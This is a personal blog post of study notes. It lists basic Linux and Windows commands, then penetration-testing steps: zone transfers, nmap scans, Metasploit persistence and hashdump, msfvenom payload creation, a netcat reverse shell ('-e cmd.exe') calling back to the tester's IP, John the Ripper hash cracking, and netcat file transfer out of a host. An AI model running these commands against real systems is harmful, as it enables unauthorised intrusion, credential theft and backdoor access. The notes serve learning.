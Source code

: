 ```yaml
---
layout: post
title: "Basics Cheat Sheet"
date: 2017-09-05
---
```

<p>
Here is a formatted list of basic commands. I used these as I was learning how to get my way around and added to the list as I learned new things. Writing them down helped me remember the syntax.
</p>
<h3> Get Help … and other info</h3>
<ul>
<strong>
	<li><code>C:\> <command> /? </code></li>
	<li><code>root@kl~# <command> -h </code></li>
	<li><code>root@kl~# <command> --help </code></li>
	<li><code>root@kl~# man <command> </code></li>
	<li><code>root@kl~# apropos </code></li>
	<li><code>root@kl~# history </code></li>
	<li><code>root@kl~# hostname</code></li>
	<li><code>root@kl~# sudo </code></li>
	<li><code>root@kl~# whoami </code></li>
</strong>
		<ul>
		<li>(print current user id and name)</li>	
		</ul>
<strong>
	<li><code>root@kl~# date </code></li> 
	<li><code>C:\>  chdir </code></li>
</strong>
		<ul>
		<li>(displays location)</li>
		</ul>
<strong>
	<li><code>root@kl~# pwd </code></li>
</strong>
		<ul>
		<li>(displays location)</li>
		</ul>
</ul>
###Processes and Things
root@kl~# jobs 
(list cronjobs)
root@kl~# kill 
(stop processes)
root@kl~# pkill 
(stop processes)
root@kl~# ps –aef 
(list processes status)
C:\ tasklist
Files
root@kl~# cp <src> <dst> (copy)
C:\> copy <src> <dst>
root@kl~# clear
C:\> cls
C:\> dir
root@kl~# echo <message>
(print to screen)
root@kl~# find –iname <file>
C:\> findstr /i /s <string> *.txt
(like grep for Windows)
root@kl~# file
(determine file type)
C:\> dir \ <file> /b /s
root@kl~# grep
(search files for matching text)
root@kl~# gzip
(compress or decompress files)
root@kl~# less 
(display output one screen at a time)
root@kl~# locate
root@kl~# ls
root@kl~# mkdir 
(new directory)
root@kl~# mv <src><dst> (move/rename a file)
C:\>  move <src> <dst>
root@kl~# rm (remove files)
C:\> ren (renames file)
root@kl~# umask 
(users file creation mask)
root@kl~# uniq 
(uniquify files)
root@kl~# vi/vim 
(the best text editor)
root@kl~# wc 
(print byte, word and line counts)
root@kl~# whereis 
(search $path, man pages and source files for program)
Users
root@kl~# chgrp 
(change group ownership)	
root@kl~# chmod 
(change access permissions) 
root@kl~# chown 
(change file owner and group)
root@kl~# groupadd 
(add a user to a security group)
root@kl~# passwd 
(modify user password)
root@kl~# useradd 
(create new users)
root@kl~# usermod 
(modify user account)
root@kl~# users 
(list logged in users)
Networks
root@kl~# curl (grab webpages)
root@kl~# dig (DNS lookup)
root@kl~# ifconfig
root@kl~# netstat -ano/-plant/-uplant
(networking connections)
root@kl~# nslookup
 (query name servers)
root@kl~# ping
root@kl~# ssh
root@kl~# traceroute
root@kl~# wget 
(get web pages or files)
 
 
Reconnaissance
Discover target’s IP/FQDN domain
nslookup <domain>
nslookup <ip>
Find nameserver for known domain
	root@kl~# dig <domain>
perform a zone transfer to list hosts w/in domain
	root@kl~# dig axfr @<name server> <domain>
determine route to a host
	root@kl~# traceroute <ip>
	C:\> tracert <ip
scan for services and operating system
	root@kl~# nmap –sV –O <ip> 
scan for vulns
	root@kl~# nmap --script=vulns <ip>
Gain and Maintain
establish ssh connection
	root@kl~# ssh <user>@<ip>
remote desktop (rdesktop is port 3389 and vncviewer is 5900)
	rdesktop -u <username> -p <password> <ip>
	vncviewer <ip>
favorites from the msf console
	search <keyword>
	info <module> 
	use <module>
	show options (shows you what to fill in)
	show payloads (shows payloads associated with the exploit you loaded)
	background (use to background sessions)
	pwd vs lpwd & cd vs lcd
	sessions –i <#>  (to interact with sessions)
	run persistence –h 
	run persistence –A –r <your ip> -p <port> -i 10 (call back every 10 seconds if connection is lost)
	hashdump
add a route in msf
	route add <victim subnet> <subnet mask> <session#>
	route print
make a msfvenom payload for windows executable
	root@kl~# msfvenom –p <payload> lhost=<ip> lport=<port> -f exe –i 2 > <file>.exe
	root@kl~# msfvenom –l encoders (for list of encoders)
	set up a listener in metasploit
		use exploit/multi/handler
		set payload
		set ExitOnSession false
		exploit –j (run as a job)
netcat backdoor
	root@kl~# nc –l –p <port> (on launch platform)
	C:\> start nc <launch ip> <port> -e cmd.exe
Escalate and Propagate
get passwords using meterpreter or shell (/etc/shadow or hashdump)
use john to crack NT hashes – remember to add special words you find to the password list in john
	root@kl~# ./john <file> --format=nt
transfer files with netcat
	root@kl~#  nc –l –p <port> > <file> (on your platform to listen for file)
	C:\> nc.exe <your ip> <port>  <  <file to transfer>
transfer files with python
	python –m SimpleHTTPServer <port>
